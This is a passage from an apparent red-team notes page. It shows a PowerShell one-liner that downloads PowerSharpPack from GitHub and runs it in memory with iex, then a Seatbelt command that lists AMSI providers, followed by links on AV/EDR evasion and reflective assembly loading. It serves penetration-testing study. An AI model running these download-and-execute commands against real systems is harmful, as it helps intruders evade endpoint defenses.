 ```powershell
#Download PowerSharpPack
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1')

#Choose your tool
PowerSharpPack -seatbelt -Command "AMSIProviders"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/av-edr-evasion/dotnet-reflective-assembly" %}

{% embed url="https://stackoverflow.com/questions/14479074/c-sharp-reflection-load-assembly-and-invoke-a-method-if-it-exists" %}

{% embed url="https://blog.king-sabri.net/red-team/executing-c-assembly-in-memory-using-assembly.load" %}

{% embed url="https://www.ired.team/offensive-security/code-injection-process-injection/injecting-and-executing-.net-assemblies-to-unmanaged-process" %}

